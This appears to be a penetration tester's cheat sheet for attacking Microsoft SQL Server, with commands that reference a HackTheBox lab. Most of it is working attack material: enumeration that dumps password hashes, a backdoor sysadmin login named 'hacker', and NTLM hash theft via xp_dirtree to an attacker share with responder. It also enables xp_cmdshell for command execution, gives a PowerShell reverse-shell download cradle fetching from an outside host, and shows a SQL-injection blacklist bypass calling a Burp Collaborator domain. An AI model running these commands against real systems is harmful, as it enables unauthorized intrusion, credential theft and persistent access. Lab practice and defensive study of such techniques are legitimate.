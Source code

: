 Mssql
========================

## Accessing

    impacket-mssqlclient 'PublicUser:GuestUserCantWrite1@escape.htb'


## Enumeration

    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <hostname>
    
    
## Enumeration

```
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM volume.INFORMATION_SCHEMA.TABLES;
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'
```

Database names:

    SELECT name FROM master.dbo.sysdatabases;

Table names:

    SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;

Use database

    USE master

Create user with sysadmin privs

    CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
    EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

    select name, create_date, modify_date, type_desc as type, authentication_type_desc as authentication_type, sid from sys.database_principals where type not in ('A', 'R') order by name;

List user:

    select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

## Obtain hashes

```
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

## Command execution

XP_CMDSHELL

    SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

 Username + Password + CMD command

    crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"

Username + Hash + PS command

    crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'


This turns on advanced options and is needed to configure xp_cmdshell

    sp_configure 'show advanced options', '1'
    RECONFIGURE

This enables xp_cmdshell

    sp_configure 'xp_cmdshell', '1'
    RECONFIGURE

One liner

    sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', '1'; RECONFIGURE;

Quickly check what the service account is via xp_cmdshell

    EXEC master..xp_cmdshell 'whoami'

Get Rev shell

    EXEC xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell2.ps1')"

Bypass blackisted "EXEC xp_cmdshell"

    '; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
    
## Impersonation

Check impersonation users:

    SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
    
